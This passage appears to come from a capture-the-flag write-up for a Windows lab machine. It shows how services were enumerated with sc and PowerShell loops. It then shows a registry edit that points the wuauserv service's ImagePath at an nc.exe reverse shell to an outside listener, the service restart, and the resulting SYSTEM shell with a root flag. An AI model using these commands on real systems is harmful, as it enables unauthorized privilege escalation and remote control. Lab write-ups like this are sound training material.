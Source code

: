 In `cmd.exe` we can try to loop over all services like that:

```
FOR /F %i in (services_name.txt) DO @sc qc %i
```

I translated this in PowerShell to check process that the user has access to:

```powershell
foreach($line in Get-Content .\services_name.txt) { 
  $res = iex "sc.exe qc $line"
  if($res -match 'QueryServiceConfig SUCCESS'){
    echo $res
  }
}
```

So we have a list of services that Hector can modify, that iusr can restart and
that are own and executed as SYSTEM.

With Hector we try to modify `wuauserv` binary to a reverse shell command:

```
C:\Users\Hector\Videos>reg add HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\wuauserv /v ImagePath /t REG_EXPAND_SZ /d "C:\Inetpub\wwwroot\uploads\nc.exe 10.10.15.123 10004 -e powershell.exe" /f
The operation completed successfully.
```

With iusr we start the service: `sc start wuauserv` so we gain a system shell.

```
nc -nlp 10004
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> gc C:\Users\Administrator\Desktop\root.txt
8f8613f5b4da391f36ef11def4cec1b1

PS C:\Windows\system32> whoami
nt authority\system
```

Note: the command is executed even if `sc` displays an error.

Why `wuauserv`? I just tried them all and it worked with this one.

### Files

As the output of the commands listing services were very long I pasted them
in a Gist.

[Gist](https://gist.github.com/S4CH/6b3f8d923b661c050e696f2d6e871b94)

- [services_bin_path.txt](https://gist.github.com/S4CH/6b3f8d923b661c050e696f2d6e871b94#file-services_bin_path_for_htb-txt)
- [services_fullpath.txt](https://gist.github.com/S4CH/56934c1c8943c988f8758d9ac03591d9#file-services_full_path_for_htb-txt)
- [services_name.txt](https://gist.github.com/S4CH/3653068fa256096b7ce2b5c223385ceb#file-names_of_services-txt)
- [services_name2.txt](https://gist.github.com/S4CH/349fd9b09271f01c3bbd2b532695b289#file-names_of_services-_2-txt)
- [services_rights.txt](https://gist.github.com/S4CH/13da1ea8075115d4859e9130c02e461b#file-services_rights_for_htb-txt)
- [services_that_can_be_restarted.txt](https://gist.github.com/S4CH/7f4983f57de320b529a58abc640e71e7#file-restarted_services-txt)
